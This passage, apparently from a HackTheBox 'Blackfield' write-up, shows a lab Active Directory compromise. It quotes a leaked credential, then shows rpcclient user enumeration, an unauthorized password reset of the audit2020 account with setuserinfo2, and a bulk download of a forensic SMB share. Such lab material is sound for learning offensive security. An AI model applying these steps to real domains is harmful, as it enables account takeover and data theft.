 So the password for the user *support* is *#00^BlackKnight*


# User

While trying to get a shell, i failed. The only thing i could connect to with these new credentials was *rpcclient*

The hint in this one is the account name *support* somehow i am supposed to be able to help users with various things. After some googleing i found out we can actually change user password through rpcclient, this is explained in this [article](https://malicious.link/post/2017/reset-ad-user-password-with-linux/).

By connecting to rpcclient and running *enumdomusers* i could list all active domain accounts.

~~~
┌──(kali@kali)-[~/boxes/blackfield]
└─$ rpcclient 10.10.10.192 -U support
Enter WORKGROUP\support's password:                                               

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]  
user:[Guest] rid:[0x1f5]                                 
user:[krbtgt] rid:[0x1f6]                                 
user:[audit2020] rid:[0x44f] 
....
....
user:[support] rid:[0x450]                                       user:[svc_backup] rid:[0x585]                           
user:[lydericlefebvre] rid:[0x586]                                     
~~~
{: .language-bash}

Trying a few users i finally managed to set a new password for the user *audit2020*

~~~
rpcclient $> setuserinfo2 svc_backup 23 "Yaagn123"
result: NT_STATUS_ACCESS_DENIED
result was NT_STATUS_ACCESS_DENIED
rpcclient $> setuserinfo2 audit2020 23 "Yaagn123"
rpcclient $> 
~~~
{: .language-bash}

Going back to the SMB shares i remember there was one share called "forensic" and this *audit2020* user seems to be a user left over from some kind of security audit. 

I proceeded by connecting to the share and download all of it's files.

~~~
┌──(kali@kali)-[~/boxes/blackfield]
└─$ smbclient //10.10.10.192/forensic -U audit2020                                                                    
Enter WORKGROUP\audit2020's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Feb 23 08:03:16 2020
  ..                                  D        0  Sun Feb 23 08:03:16 2020
  commands_output                     D        0  Sun Feb 23 13:14:37 2020
  memory_analysis                     D        0  Thu May 28 16:28:33 2020
  tools                               D        0  Sun Feb 23 08:39:08 2020

                7846143 blocks of size 4096. 4103703 blocks available
smb: \> recurse on
smb: \> prompt off
smb: \> mget * 
getting file \commands_output\domain_admins.txt of size 528 as domain_admins.txt (2.5 KiloBytes/sec) (average 2.5 KiloBytes/sec)
~~~